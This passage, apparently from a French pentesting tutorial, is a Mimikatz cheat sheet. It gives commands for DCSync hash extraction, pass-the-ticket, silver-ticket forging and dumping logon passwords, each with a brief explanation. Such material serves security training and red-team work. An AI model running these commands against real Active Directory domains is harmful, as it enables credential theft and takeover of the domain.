 ***

#### 2. Extraction des Hashes du Contrôleur de Domaine

*   **Commande complète** :

    ```cmd
    privilege::debug
    lsadump::dcsync /domain:<domain_name> /user:<username>
    ```
* **Explication** :
  * Utilise la fonction DCSync pour simuler un contrôleur de domaine et obtenir les informations d'authentification des comptes.
  * `<domain_name>` : Nom du domaine cible.
  * `<username>` : Nom d’un compte utilisateur (ex. : `administrator`).

***

#### 3. Pass-the-Ticket avec un Ticket Kerberos

*   **Commande complète** :

    ```cmd
    kerberos::ptt ticket.kirbi
    ```
* **Explication** :
  * Injecte un ticket Kerberos récupéré précédemment pour accéder aux ressources du domaine cible.

***

#### 4. Attaque Silver Ticket

*   **Commande complète** :

    ```cmd
    kerberos::golden /domain:<domain_name> /sid:<domain_sid> /target:<target_service> /service:<service_name> /rc4:<service_account_hash>
    ```
* **Explication** :
  * Crée un ticket spécifique pour un service particulier (ex. : `CIFS` ou `HTTP`) en utilisant le hash NTLM du compte de service.

***

### 🔍 Étape 5 : Techniques Avancées

***

#### 1. Utiliser Mimikatz en Mode Non Interactif

*   **Commande** :

    ```cmd
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
    ```
* **Explication** :
  * Exécute des commandes prédéfinies dans un script unique et quitte automatiquement.
